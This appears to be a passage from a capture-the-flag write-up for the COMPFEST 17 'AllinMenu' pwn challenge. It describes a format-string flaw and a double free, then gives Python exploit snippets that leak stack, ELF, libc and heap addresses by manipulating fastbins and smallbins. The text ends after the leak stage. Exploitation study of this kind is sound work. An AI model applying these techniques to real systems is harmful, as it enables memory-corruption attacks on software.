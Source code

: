 ![alt](../../../img/CTFNational/COMPFEST_17_CTF_Qual/AllinMenu.png)
1. `chunk[idx] = malloc(size)` chunk with size given limited to 0x78 also asking for the idx and content.
2. `printf(*(chunk[idx]))` it will print the chunk content
3. `free(chunk[idx])` free the chunk with idx given
4. exit the program with return

The vuln here is format strings (it doesn't accept $ in the input) and double free. So first i leak the stack and elf address with format strings.         

```python
alloc(1, 0x78, b"%p."*10)
view(1)
leaks = rl().split(b".")
print(leaks)
stack = int(leaks[0],16)
ret = stack + 0x4878
elf_leak = int(leaks[8],16)
elf.address = elf_leak - (elf.sym["main"] + 249)
```

After that leak heap & libc with moving the fastbin to smallbins using scanf.

```python
for i in range(9):
    alloc(2 + i, 0x78, b"A")
for i in reversed(range(7)):
    free(1 + i)
free(8)
menu(2)
sla(": ", b"8".rjust(1024,b"0")) #Move fastbin to smallbins
rl()
libc_leak = u64(rl().strip().ljust(8, b"\x00"))
libc.address = libc_leak - (libc.sym["main_arena"] + 208)

view(7)
heap_leak = u64(rl().strip().ljust(8, b"\x00")) << 12
heap = heap_leak
for i in range(9):
    alloc(2 + i, 0x78, b"A")
```

